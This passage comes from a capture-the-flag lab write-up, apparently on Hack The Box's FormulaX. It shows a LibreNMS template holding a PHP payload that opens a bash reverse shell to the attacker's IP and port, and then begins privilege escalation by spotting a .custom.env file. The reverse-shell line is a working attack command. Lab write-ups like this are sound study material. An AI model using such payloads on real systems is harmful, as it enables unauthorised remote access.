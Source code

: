Let's create a new template with the following php payload inside of it:

```php
@php
system("bash -c '/bin/bash -i >& /dev/tcp/10.10.14.36/1330 0>&1'");
@endphp 
```

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/formulax/image-53.png)

As soon as we create a new template, we get a reverse shell connection on our netcat listener as **librebnms**:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/formulax/image-54.png)

## Privesc: librenms to kai_relay

Reverse shell was spawned inside `/opt/librenms` directory:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/formulax/image-56.png)

Looking at files inside the current directory, `.custom.env` file stands out to us:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/formulax/image-55.png)
